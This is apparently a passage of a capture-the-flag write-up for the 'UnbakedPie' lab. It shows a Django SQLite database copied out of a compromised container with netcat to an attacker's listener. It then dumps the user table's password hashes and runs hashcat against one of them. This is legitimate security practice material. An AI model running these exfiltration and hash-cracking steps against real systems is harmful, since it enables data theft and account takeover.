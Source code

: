 
```bash
root@ip-10-10-132-109:~/UnbakedPie# nc -l -p 9999 > db.sqlite3
```

```bash
root@8b39a559b296:/home/site# nc -w 3 10.10.132.109 9999 < db.sqlite3
root@8b39a559b296:/home/site# 
```

```bash
root@ip-10-10-132-109:~/UnbakedPie# nc -l -p 9999 > db.sqlite3
root@ip-10-10-132-109:~/UnbakedPie# 
```


```bash
root@ip-10-10-132-109:~/UnbakedPie# sqlite3 db.sqlite3
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
auth_group                  django_admin_log          
auth_group_permissions      django_content_type       
auth_permission             django_migrations         
auth_user                   django_session            
auth_user_groups            homepage_article          
auth_user_user_permissions
sqlite> 

```

```bash
sqlite> select * from auth_user;
1|pbkdf2_sha256$216000$3fIfQIweKGJy$xFHY3JKtPDdn/AktNbAwFKMQnBlrXnJyU04GElJKxEo=|2020-10-03 10:43:47.229292|1|aniqfakhrul|||1|1|2020-10-02 04:50:52.424582|
11|pbkdf2_sha256$216000$0qA6zNH62sfo$8ozYcSpOaUpbjPJz82yZRD26ZHgaZT8nKWX+CU0OfRg=|2020-10-02 10:16:45.805533|0|testing|||0|1|2020-10-02 10:16:45.686339|
12|pbkdf2_sha256$216000$hyUSJhGMRWCz$vZzXiysi8upGO/DlQy+w6mRHf4scq8FMnc1pWufS+Ik=|2020-10-03 10:44:10.758867|0|ramsey|||0|1|2020-10-02 14:42:44.388799|
13|pbkdf2_sha256$216000$Em73rE2NCRmU$QtK5Tp9+KKoP00/QV4qhF3TWIi8Ca2q5gFCUdjqw8iE=|2020-10-02 14:42:59.192571|0|oliver|||0|1|2020-10-02 14:42:59.113998|
14|pbkdf2_sha256$216000$oFgeDrdOtvBf$ssR/aID947L0jGSXRrPXTGcYX7UkEBqWBzC+Q2Uq+GY=|2020-10-02 14:43:15.187554|0|wan|||0|1|2020-10-02 14:43:15.102863|
sqlite>
```

```bash
root@ip-10-10-132-109:~/UnbakedPie# nano ramsey_hash
root@ip-10-10-132-109:~/UnbakedPie# cat ramsey_hash
ramsey:pbkdf2_sha256$216000$hyUSJhGMRWCz$vZzXiysi8upGO/DlQy+w6mRHf4scq8FMnc1pWufS+Ik
```

<p>hash was not cracked</p>

```bash
:~/UnbakedPie# hashcat -m 10000 --username ramsey_hash /usr/share/wordlists/rockyou.txt
```
